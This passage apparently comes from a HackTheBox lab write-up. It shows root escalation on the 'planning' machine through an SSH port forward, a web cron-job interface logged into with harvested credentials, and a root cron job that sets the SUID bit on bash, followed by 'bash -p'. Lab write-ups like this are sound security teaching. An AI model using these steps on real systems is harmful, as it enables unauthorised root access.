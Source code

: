 ```zsh
tcp        0      0 127.0.0.1:43447         0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.54:53           0.0.0.0:*                           -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           - 
```
The port 8000 catches my attention, as it is commonly used as an alternative HTTP port. Some firewalls use it for web-based HTTP administration. All of this indicates that there is a high probability of an interface or API running there.

I set up an SSH tunnel (port forwarding) that exposes the service listening on the victim's port 8000 to my localhost:8000, allowing me to access it from my machine.
```zsh
ssh enzo@planning.htb -L 8000:127.0.0.1:8000
```

Then, from the browser, I access the service exposed on that port and use the credentials found in `crontab.db` to log in.
![web](/images/HTB/Pasted_image_20250926071649.png)

![web](/images/HTB/Pasted_image_20250926071722.png)

Before giving it SUID permission.
```zsh
enzo@planning:~$ ls -l /bin/bash
-rwxr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash
```

Since these jobs run as root, I created a job that copied the bash binary and set the SUID bit on the copy, so that when executed the spawned shell would inherit root privileges.
![web](/images/HTB/Pasted_image_20250926072508.png)

After giving it SUID permission.
```zsh
enzo@planning:~$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash
```

Salsa!
```zsh
enzo@planning:~$ bash -p
bash-5.2# whoami
root
```

